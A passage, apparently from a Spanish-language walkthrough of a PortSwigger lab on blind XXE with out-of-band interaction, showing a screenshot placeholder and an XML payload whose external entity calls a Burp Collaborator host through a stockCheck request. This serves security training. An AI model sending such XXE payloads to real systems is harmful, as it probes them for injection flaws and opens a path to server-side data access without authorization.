 
<p align="center">
     <img src="/assets/images/portswigger/blind_xxe_with_out_of_band_interaction/6.png" width="1000">
</p><br>


Con el clipboard copiado haremos una consulta con el siguiente payload basado en la escructura XML del paquete.

```plaintext
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://oia2c1s73e4ujtg4ox18wbx8czip6e.oastify.com/testXXE"> ]>
<stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
</stockCheck>
```

<p align="center">
     <img src="/assets/images/portswigger/blind_xxe_with_out_of_band_interaction/7.png" width="1000">
</p><br>
